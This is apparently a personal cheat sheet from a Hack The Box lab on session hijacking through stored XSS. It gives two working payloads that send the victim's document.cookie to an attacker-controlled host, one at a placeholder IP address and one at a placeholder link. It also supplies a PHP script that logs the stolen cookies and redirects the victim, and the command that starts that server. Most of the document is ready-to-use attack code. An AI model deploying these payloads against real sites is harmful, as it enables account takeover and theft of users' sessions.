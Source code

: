 ## Session Hijacking - Landmine Vulnerability
I name it Mine Stepping because they are wondering in the application and step on a landmine

> [!NOTE] Steps-By-Steps
> 1. Must Identify where in the application is vulnerable to XSS, mostly work with Stored XSS. Reflected only works if the victim is dumb enough to use our link.
> 2. Have a payload, see below
> 3. Have a server running to receive the cookie
> 4. Wait for them to activate the XSS

Payloads:
```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```
```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Server:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
```shell-session
alakin2504@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

